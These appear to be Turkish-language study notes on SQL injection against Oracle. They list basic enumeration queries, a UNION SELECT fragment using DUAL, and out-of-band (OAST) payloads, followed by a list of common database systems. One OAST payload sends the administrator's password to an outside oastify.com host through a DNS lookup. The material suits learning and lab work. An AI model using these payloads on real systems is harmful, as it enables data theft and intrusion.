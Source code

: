 


**Oracle :**
 Temel Sorgular
```SQL
-- Bağlı olunan Oracle veritabanının adı
SELECT name FROM v$database;
--Oracle’da “schema” ile “user” kavramı neredeyse aynıdır. Yani her kullanıcı kendi şemasına (schema) sahiptir. Bu yüzden:
SELECT username FROM all_users;
```

Oracle da her bir `SELECT` sorgusu `FROM` kelimesi ile belirli bir tabloyla kullanılmak zorundadır. Oracle bu amaçta kullanılması için `dual` tablosunu oluşturmuş. Örnek : 
```sql
UNION SELECT NULL FROM DUAL--
```


**OAST TEKNİKLERİ :**
Veritabanı DNS ile etkileşim kurabiliyor mu diye öğrenmek için :
```sql
'|| UTL_INADDR.GET_HOST_ADDRESS('cdt2afnakmekb3yikb8mea9yup0go9cy.oastify.com') ||'
```
OUT of band sorgularını daha optimize edebilmek için.
 ```SQL
 '|| UTL_INADDR.GET_HOST_ADDRESS((SELECT password FROM users WHERE username='administrator') || '.cdt2afnakmekb3yikb8mea9yup0go9cy.oastify.com') ||'
```




































#### Önemli yerler : 
Çoğunlukla kullanılan Database sistemleri :
- MySQL
- MariaDB
- Oracle
- PostgreSQL
- MSSQL
- SQLite
NoSQL Database sistemleri:
- MongoDB
- Redis
- Cassandra
- Elasticsearch
- Firebase
- Amazon DynamoDB